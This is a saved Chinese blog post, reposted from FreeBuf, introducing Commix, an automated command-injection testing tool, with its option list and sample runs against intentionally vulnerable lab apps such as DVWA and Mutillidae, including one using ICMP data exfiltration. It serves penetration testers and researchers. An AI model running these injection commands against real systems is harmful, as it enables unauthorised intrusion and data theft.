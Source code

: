```yaml
---
layout: post
title: 系统命令注入漏洞自动化测试工具 – Commix
categories:
- Pocket
tags:
---
```

原文地址：http://www.freebuf.com/tools/64030.html

收藏时间：2015-04-17 09:40:13

<div  lang="en">
<div id="RIL_IMG_1" class="RIL_IMG"><img src="/media/posts_images/2015-04-17-897280697/1"/></div>

<p nodeIndex="61"><span nodeIndex="352"><strong nodeIndex="353">Commix是一个适用于web开发者、渗透测试人员及安全研究者的自动化测试工具，可以帮助他们更高效的发现web应用中的命令注入攻击相关漏洞。Commix由Python编写。</strong></span></p>
<p nodeIndex="62"><span nodeIndex="354"><strong nodeIndex="355">环境要求</strong></span><br nodeIndex="356">
Python 2.6.x或2.7.x</p>
<p nodeIndex="63"><span nodeIndex="357"><strong nodeIndex="358">安装</strong></span><br nodeIndex="359">
下载git clone https://github.com/stasinopoulos/commix.git commix</p>

<p nodeIndex="65"><span nodeIndex="362"><strong nodeIndex="363">基本使用</strong></span></p>
<pre class="prettyprint lang-html" nodeIndex="66">
Usage: python commix.py [options]
</pre>

<pre class="prettyprint lang-html" nodeIndex="68">
-h, --help Show help and exit.
--verbose             Enable the verbose mode.
--install             Install 'commix' to your system.
--version             Show version number and exit.
--update              Check for updates (apply if any) and exit.
</pre>

<pre class="prettyprint lang-html" nodeIndex="70">
--url=URL           Target URL.
--url-reload        Reload target URL after command execution.
</pre>

<pre class="prettyprint lang-html" nodeIndex="72">
--host=HOST         HTTP Host header.
--referer=REFERER   HTTP Referer header.
--user-agent=AGENT  HTTP User-Agent header.
--cookie=COOKIE     HTTP Cookie header.
--headers=HEADERS   Extra headers (e.g. 'Header1:Value1\nHeader2:Value2').
--proxy=PROXY       Use a HTTP proxy (e.g. '127.0.0.1:8080').
--auth-url=AUTH_..  Login panel URL.
--auth-data=AUTH..  Login parameters and data.
--auth-cred=AUTH..  HTTP Basic Authentication credentials (e.g.
                    'admin:admin').
</pre>

<pre class="prettyprint lang-html" nodeIndex="74">
--data=DATA         POST data to inject (use 'INJECT_HERE' tag).
--suffix=SUFFIX     Injection payload suffix string.
--prefix=PREFIX     Injection payload prefix string.
--technique=TECH    Specify a certain injection technique : 'classic',
                    'eval-based', 'time-based' or 'file-based'.
--maxlen=MAXLEN     The length of the output on time-based technique
                    (Default: 10000 chars).
--delay=DELAY       Set Time-delay for time-based and file-based
                    techniques (Default: 1 sec).
--base64            Use Base64 (enc)/(de)code trick to prevent false-
                    positive results.
--tmp-path=TMP_P..  Set remote absolute path of temporary files directory.
--icmp-exfil=IP_..  Use the ICMP exfiltration technique (e.g.
                    'ip_src=192.168.178.1,ip_dst=192.168.178.3').
</pre>
<p nodeIndex="75"><span nodeIndex="376"><strong nodeIndex="377">测试示例</strong></span></p>
<p nodeIndex="76"><span nodeIndex="378"><strong nodeIndex="379">测试漏洞web应用Damn</strong></span></p>
<pre class="prettyprint lang-html" nodeIndex="77">
python commix.py --url="http://192.168.178.58/DVWA-1.0.8/vulnerabilities/exec/#" --data="ip=INJECT_HERE&submit=submit" --cookie="security=medium; PHPSESSID=nq30op434117mo7o2oe5bl7is4"
</pre>
<p nodeIndex="78"><span nodeIndex="380"><strong nodeIndex="381">使用注入攻击Payload参数测试php-Charts 1.0</strong></span><br nodeIndex="382"></p>
<pre class="prettyprint lang-html" nodeIndex="79">
python commix.py --url="http://192.168.178.55/php-charts_v1.0/wizard/index.php?type=INJECT_HERE" --prefix="//" --suffix="'"
</pre>
<p nodeIndex="80"><span nodeIndex="383"><strong nodeIndex="384">使用特殊的头和HTTP代理测试OWASP Mutillidae</strong></span><br nodeIndex="385"></p>
<pre class="prettyprint lang-html" nodeIndex="81">
python commix.py --url="http://192.168.178.46/mutillidae/index.php?popUpNotificationCode=SL5&page=dns-lookup.php" --data="target_host=INJECT_HERE" --headers="Accept-Language:fr\nETag:123\n" --proxy="127.0.0.1:8081"
</pre>
<p nodeIndex="82"><strong nodeIndex="386"><span nodeIndex="387">使用ICMP渗漏（exfiltration）技术测试Persistence</span></strong><br nodeIndex="388"></p>
<pre class="prettyprint lang-html" nodeIndex="83">
su -c "python commix.py --url="http://192.168.178.8/debug.php" --data="addr=127.0.0.1" --icmp-exfil="ip_src=192.168.178.5,ip_dst=192.168.178.8""
</pre>
<p nodeIndex="84"><span nodeIndex="389"><strong nodeIndex="390">*翻译及整理/phper，转载须注明来自FreeBuf黑客与极客（FreeBuf.COM）</strong></span></p>
</div>